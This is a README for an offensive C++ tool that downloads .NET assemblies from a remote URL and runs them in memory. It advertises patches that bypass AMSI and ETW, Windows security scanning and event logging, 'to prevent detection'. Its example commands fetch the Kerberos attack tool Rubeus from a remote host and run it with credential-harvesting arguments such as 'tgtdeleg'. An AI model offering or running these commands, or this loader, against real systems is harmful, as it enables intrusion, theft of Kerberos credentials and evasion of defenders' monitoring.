 # Assembly Loader Tool

A C++ tool for loading and executing .NET assemblies from remote URLs with built-in AMSI/ETW bypass capabilities.

This tool must be compiled with C++17 standard support.
## Features

- **Remote Assembly Execution**: Load and run .NET assemblies directly from HTTP/HTTP URLs
- **AMSI Bypass**: Built-in patch for Anti-Malware Scan Interface
- **ETW Bypass**: Built-in patch for Event Tracing for Windows
- **TLS Support**: Secure HTTPS connections
- **Argument Passing**: Forward custom arguments to the loaded assembly

## Usage

```cmd
.\runAssembly.exe --url <http://host:port/path> [--] [extra_args]
```
![](./runAssembly.png)

### Options

| Option | Description |
|--------|-------------|
| `--url` | Full URL to the assembly (http or https) |
| `--help` | Show help message |
| `--` | Separator for extra arguments passed to the assembly |

**Note**: All options must appear before the `--` separator.

## Examples

```cmd
# Load assembly from HTTP URL
.\runAssembly.exe --url http://127.0.0.1:8000/rubeus.exe

# Load assembly from HTTPS URL with TLS enabled
.\runAssembly.exe --url https://example.com/rubeus.exe

# Load assembly and pass arguments to it
.\runAssembly.exe --url http://localhost/rubeus.exe -- klist

# Load from HTTPS with TLS and pass multiple arguments
.\runAssembly.exe --url https://127.0.0.1/rubeus.exe -- tgtdeleg /nowrap
```

## Security Features

- **AMSI Patch**: Automatically bypasses AMSI scanning for the loaded assembly
- **ETW Patch**: Disables Event Tracing for Windows to prevent detection

